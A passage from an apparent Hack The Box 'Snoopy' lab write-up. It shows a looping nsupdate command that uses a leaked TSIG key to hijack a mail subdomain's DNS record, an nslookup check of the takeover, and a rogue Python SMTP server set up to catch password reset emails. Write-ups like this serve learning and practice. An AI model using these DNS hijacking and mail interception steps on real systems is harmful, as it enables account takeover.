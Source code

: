 Request to update the dns record for `mail.snoopy.htb` to point to our IP

> Since the record will be reset every 30 seconds, I'll use a while loop (Only do this if have VIP+)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ while true; do nsupdate -y 'hmac-sha256:rndc-key:BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=' -d << EOF
server snoopy.htb
update add mail.snoopy.htb. 77777 IN A 10.10.16.10
send
EOF
; sleep 15; done
```

Verified that we have took over the `mail` subdomain

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ nslookup
> server snoopy.htb
Default server: snoopy.htb
Address: 10.129.69.239#53

> mail.snoopy.htb
;; communications error to 10.129.69.239#53: timed out
Server:         snoopy.htb
Address:        10.129.69.239#53

Name:   mail.snoopy.htb
Address: 10.10.16.10
```


### Rogue mail server : Receive password reset link

Google : `python simple smtp server`

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ python -m smtpd -c DebuggingServer -n 0.0.0.0:25
```

![](/assets/obsidian/21459482071b9125695216de7aaf6066.png)
